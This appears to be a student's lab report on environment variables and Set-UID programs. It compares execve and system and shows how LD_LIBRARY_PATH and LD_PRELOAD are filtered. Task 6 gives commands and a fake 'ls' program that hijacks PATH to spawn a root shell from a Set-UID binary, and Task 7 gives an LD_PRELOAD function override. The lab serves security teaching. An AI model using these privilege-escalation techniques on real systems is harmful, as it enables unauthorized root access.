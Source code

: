 # CIS 751 Lab Assignment 1

## Task 1
We can view, set, and unset shell variables as shown in Figure 1. In addition to the `printenv` command, we can also use `grep` as follows:
```sh
env | grep "LOGNAME"
```

![Task 1](./Screenshots/task1.png)

## Task 2

## Task 3
Initially, the program called `execve()` in the following way:
```c
execve("/usr/bin/env", argv, NULL);
```

The `execve` function receives it's environment variables from the caller. As described in the documentation, the signature for `execve` is:
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

Where `envp` are environment variables passed by the caller to the new process.

The initial program called
```c
execve("/usr/bin/env", argv, NULL);
```

Which passes `NULL` for the environment variables. As seen in Figure 2, this results in nothing being printed when `/usr/bin/env` is called.

The updated program called
```c
execve("/usr/bin/env", argv, environ);
```

Which passes the environment variables in `environ` (the parent's environment variables) to the new process. We observe that the parent process's environment variables are correctly passed to the child and thus printed when `/usr/bin/env` is called.


![Task 3](./Screenshots/task3.png)

## Task 4
Unlike `execve()`, `system()` inherits it's environment variables from it's parent. When `system()` spawns a new shell to execute the `env` command, we expect `env` to run in an environment that contains all of the parent process's environment variables. As expected, these are printed when the following line is executed:
```c
system("/usr/bin/env");
```

![Task 4](./Screenshots/task4.png)

## Task 5
To set this up, the following shell variables were created (or modified):
```sh
export PATH = my_path:$PATH
export MY_VAR=foo
export LD_LIBRARY_PATH=my_linker_path
```
The program was then run and output was put in `task5_output`. The resulting file was then searched using 
```sh
grep <VARIABLE> task5_output
```
Figure 5 shows the output of this. As is evident, the `MY_VAR` and `PATH` variables were inherited by the child process, and are thus present in the output file. However, the `LD_LIBRARY_PATH` variable is not present. This is a security feature where certain environment variables are not passed to the child if it is created in a Set UID context.

![Task 5a](./Screenshots/task5.png)

We can test this by removing the Set UID bit and re-running the experiment. As is shown in Figure 6, the `LD_LIBRARY_PATH` variable is inherited by the child.

![Task 5b](./Screenshots/task5_b.png)

## Task 6
In this exercise, we will exploit the program calling `ls` and use it to generate a root shell. As described in the lab, we first need to setup the following symbolic link:
```sh
$ sudo rm /bin/sh
$ sudo ln -s /bin/zsh /bin/sh
```

The `PATH` variable is updated to contain the current directory and exported as follows:
```sh
export PATH=/home/seed:$PATH
```

We then compile the following program with the name `ls` in the "/home/seed" directory.
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("I am a malicious version of ls!!!!\n");
    printf("I will now spawn a root shell!\n");
    system("/bin/sh");
    return 0;
}
```

*Note that the task6 program was given the owner root and the set UID bit.*

As is shown in Figure 7, we get a root shell when the task6 program is run. This occurs because the system will search the directories described in `PATH` to find the `ls` command when run. Since our directory preceeds everything else, it will find a match to our version of `ls` and execute that, spawning a shell in a Set UID context.

![Task 6](./Screenshots/task6.png)

## Task 7
In task 7, we create a malicious library containing a `sleep` function and attempt to get our program to execute the malicious function. We do this by compiling our program (shown below) as a library and adding it to `LD_PRELOAD`, so when the dynamic linker searches for `sleep`, it finds our function first.
```c
// Malicious sleep program
#include <stdio.h>
void sleep(int s)
{
    printf("I am not sleeping!\n");
}
```

We first do this in a non-privileged environment (the task7 program is owned by seed and is not Set UID). As can be seen in Figure 8, when task7 is executed we see the string `"I am not sleeping"` printed, as the malicious function was executed. However, when task7 is owned by root and is a Set UID program (escalated privileges), we do not see this string printed and the program simply slept for a second before exiting. This is because the `LD_PRELOAD` environment variable is not passed to the new shell in a Set UID context. This is a security feature to prevent exactly this.

![Task 7a](./Screenshots/task7_a.png)